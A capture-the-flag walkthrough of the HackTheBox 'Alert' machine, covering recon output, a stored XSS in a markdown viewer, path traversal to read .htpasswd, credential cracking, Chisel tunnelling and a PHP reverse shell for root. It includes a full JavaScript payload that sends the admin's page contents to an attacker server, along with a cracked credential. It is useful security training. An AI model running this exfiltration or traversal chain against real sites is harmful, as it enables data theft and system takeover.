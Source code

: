 ## HackTheBox Machine
<img src="Alert.png" alt="Alt Text" width="400" height="300" />

### Link: https://app.hackthebox.com/machines/Alert
-------------------------------------------------------

### RECON:
+ Scan open port in the machine:

```bash
$ nmap -sV -vv -A -T4 -p- alert.htb
PORT      STATE    SERVICE REASON      VERSION
22/tcp    open     ssh     syn-ack     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 7e:46:2c:46:6e:e6:d1:eb:2d:9d:34:25:e6:36:14:a7 (RSA)
| ssh-rsa 
|   256 45:7b:20:95:ec:17:c5:b4:d8:86:50:81:e0:8c:e8:b8 (ECDSA)
| ecdsa-sha2-nistp256 
|   256 cb:92:ad:6b:fc:c8:8e:5e:9f:8c:a2:69:1b:6d:d0:f7 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIG/QUl3gapBOWCGEHplsOKe2NlWjlrb5vTTLjg6gMuGl
80/tcp    open     http    syn-ack     Apache httpd 2.4.41 ((Ubuntu))
| http-title: Alert - Markdown Viewer
|_Requested resource was index.php?page=alert
|_http-server-header: Apache/2.4.41 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
12227/tcp filtered unknown no-response
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

+ Enumerate the all directories:

```bash
$ gobuster dir -u http://alert.htb -w /usr/share/wordlists/dirb/common.txt -xtxt -t64
===============================================================
Starting gobuster in directory enumeration mode
===============================================================

/contact.php          (Status: 200) [Size: 24]
/css                  (Status: 301) [Size: 304] [--> http://alert.htb/css/]
/index.php            (Status: 302) [Size: 660] [--> index.php?page=alert]
/index.php            (Status: 302) [Size: 660] [--> index.php?page=alert]
/messages             (Status: 301) [Size: 309] [--> http://alert.htb/messages/]
/messages.php         (Status: 200) [Size: 1]
/server-status        (Status: 403) [Size: 274]
/uploads              (Status: 301) [Size: 308] [--> http://alert.htb/uploads/]
Progress: 18456 / 18460 (99.98%)
===============================================================
Finished
```

+ Enumerate valid subdomain of `alert.htb`:

```bash
$ ./ffuf -u 'http://alert.htb' -H 'Host: FUZZ.alert.htb' -w /usr/share/SecLists/Discovery/DNS/subdomains-top1million-20000.txt -mc all -t 100 -fc 301
```
![alt text](/Machine_Labs/Alert/Images/image-1.png)

### XSS VULN:
+ In page `alert` - Markdown Viewer, we upload file `.md`. After checking all potential parameters can be XSS, we've found out that we can inject payload into file `.md` to pop up the alert XSS when view markdown.
+ We've prepared the payload `<script>alert(document.domain)</script>` and upload file `.md` to view markdown:

![alt text](/Machine_Labs/Alert/Images/image-3.png)

--> It work and the vuln XSS exist.

+ Check another pages, we notice in page `About us`:

![alt text](/Machine_Labs/Alert/Images/image-4.png)

--> It means that when we send contact messages and report then admin account will be auto checked. We can send messages in page `Contact` and capture the action of account administrators. Using the XSS Vuln to retrive sensitive information.

### GET INITIAL:
+ First we will generate payload XSS to retrive:

```js
<script>
fetch("http://alert.htb/index.php?page=messages")
.then(response => response.text()) // Convert the response to text
.then(data => {
fetch("http://10.10.14.29:8000/?data=" + encodeURIComponent(data));
})
</script>
```

***Note:*** When enumerating the directories, we found the hidden direc `messages` but we can not read information inside so we will use payload XSS to retrive informatio inside `messages`.

+ We open the local server:

```bash
$ sudo python3 -m http.server
[sudo] password for zicco: 
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

+ Upload the payload `.md`, after upload normal we choose `Share Mardown` and get the share link:

![alt text](/Machine_Labs/Alert/Images/image-5.png)

+ Copy the `link_share` and send it in `Contact`:

![alt text](/Machine_Labs/Alert/Images/image-6.png)

+ After send it, we will check the local server will capture the action:

![alt text](/Machine_Labs/Alert/Images/image-7.png)

+ Decode the capture and we see the potential information:

![alt text](/Machine_Labs/Alert/Images/image-8.png)

--> Now we can see the hidden direct `Messages` and notice the line `<h1>Messages</h1><ul><li><a href='messages.php?file=2024-03-10_15-48-34.txt'>2024-03-10_15-48-34.txt</a></li></ul>`. We are able to access the messages.php with parameter `file` to read deeper.

+ We will manipulate `messages.php?file=` to read root file of subdomain which we've found `statistics.alert.htb` and we have the `PATH=/var/www/statistics.alert.htb/`. 
+ We've known the file contain password we can find in root file that is `.htpasswd`. Combine with `Path Traversal` we'had the full path: `http://alert.htb/messages.php?file=../../../../../var/www/statistics.alert.htb/.htpasswd`.
+ Edit payload, get the link_share, send it and capture again:

![alt text](/Machine_Labs/Alert/Images/image-9.png)

+ Decode the capture:

![alt text](/Machine_Labs/Alert/Images/image-10.png)

+ Crack the passwd. Put the full hash `$apr1$bMoRBJOg$igG8WBtQ1xYDTQdLjSWZQ/` in file .txt and use tool JohnTheRipper or Hashcat to bruteforce it:

![alt text](/Machine_Labs/Alert/Images/image-2.png)

--> We've had credential `albert:machesterunited`.

+ Login SSH:

![alt text](/Machine_Labs/Alert/Images/image-11.png)

### PRIVILEGE ESCALATION:
+ We can not run sudo. Using tool to enumerate vector priv and found the server port 8080 run local:

![alt text](/Machine_Labs/Alert/Images/image-12.png)

+ Check again `/opt`, we've known server is running port 8080 is `webstie-monitor`:

![alt text](/Machine_Labs/Alert/Images/image-13.png)

+ Website is monitoring 2 pages `alert.htb` and `statistics.alert.htb`:

![alt text](/Machine_Labs/Alert/Images/image-14.png)

+ Curl port 8080 we can read it but can not access directly:

![alt text](/Machine_Labs/Alert/Images/image-15.png)

+ We can use `Tunnel` to access port 8080. With myself, we use tool [Chisel](https://github.com/jpillora/chisel) to create TCP tunnel over HTTP to access port 8080.

+ In the attack machine, we open listener:

![alt text](/Machine_Labs/Alert/Images/image-16.png)

+ In target machine, we open:

![alt text](/Machine_Labs/Alert/Images/image-18.png)

+ Now we can access the page port 8080:

![alt text](/Machine_Labs/Alert/Images/image-19.png)

+ we can read /monitors/alert.htb:

![alt text](/Machine_Labs/Alert/Images/image-17.png)

+ Back again /opt/website-monitors, we've seen the potential directory `config`. The directory `config` can execute with both priv `root` and `management`
and file `configuration.php` is same. 
+ Check file `configuration.php` and we can overwrite it so we can create revershell and capture root. We will use payload webshell [PHP PentestMonkey](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php).
+ Edit file and save it. When save file, `configuration.php` will be auto executed and use Netcat to capture the revershell:

![alt text](/Machine_Labs/Alert/Images/image-20.png)

---------------------------------------------------------------------------------------------------